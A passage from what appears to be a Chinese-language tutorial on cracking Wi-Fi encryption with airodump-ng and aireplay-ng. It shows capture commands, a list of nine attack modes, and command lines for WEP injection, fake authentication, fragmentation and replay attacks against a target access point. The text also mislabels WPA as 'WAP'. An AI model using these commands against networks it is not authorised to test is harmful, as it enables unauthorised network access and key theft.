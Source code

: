 **下列表**

STATION：表示客户端的mac  
Rate：表示客户端与AP交换数据速率  
Lost：客户端丢包个数  
Packets：客户端总的广播包个数  
Probes：客户端连接的AP点名称 

根据以上信息，选择一个信号较好的AP进行破解：

    xiaoxie@xiaoxie-laptop:~$ sudo airodump-ng -c 6 --bssid 00:11:22:33:44:55 --ivs -w output mon0
    

注：--ivs参数表示只将接收到的ivs数据包写入到文件中，如果破解的AP加密方式是WEP最好加上此参数，如果是WAP加密方式的请去掉此参数。

#### 4.3攻击指定AP(aireplay-ng)

攻击AP可使AP发送更多的可用数据包，对于WEP方式来说是IVs数据包，对于WAP方式来说是握手包(M1-M7)。aireplay-ng命令提供了九种攻击方式，它们应用于不同的场景发挥不同的作用。

    Attack 0: Deauthentication 
    Attack 1: Fake authentication 
    Attack 2: Interactive packet replay 
    Attack 3: ARP request replay attack 
    Attack 4: KoreK chopchop attack 
    Attack 5: Fragmentation attack
    Attack 6: Cafe-latte attack 
    Attack 7: Client-oriented fragmentation attack
    Attack 8: WPA Migration Mode
    Attack 9: Injection test
    

之前开启的终端不要关闭，重新打开一个终端。

##### 4.3.1在WEP场景下

如果你攻击的是使用WEP加密方式的AP,可以进行如下攻击：

进行注入测试

    aireplay-ng -9 -a 目标MAC地址  mon0
    

1）断开一个已知已经连接AP的客户端，使其重新发送认证数据包IVs

    aireplay-ng -1 0 -a 目标MAC地址 -h 客户端MAC mon0
    

从AP获取包含伪随机码生成算法的数据包，数据包只包含少量的密钥，但可用于组合成各种注入包

    aireplay-ng -5 -b 目标MAC地址 -h 客户端MAC mon0
    

2）如果你在airodump-ng命令后没有看到连接到AP的客户端，可使用下面的命令攻击

    aireplay-ng -2 -F -p 0841 -c ff:ff:ff:ff:ff:ff -b 目标MAC地址 -h 本机MAC地址 mon0
    

在使用上述命令后，在前一个终端中，接收到的数据包(#Data列)将会迅速增长，增长到大约1万时就可以进行WEP的破解了。

##### 4.3.2在WAP场景下

如果你攻击的是使用WAP加密方式的AP，可以进行如下攻击：

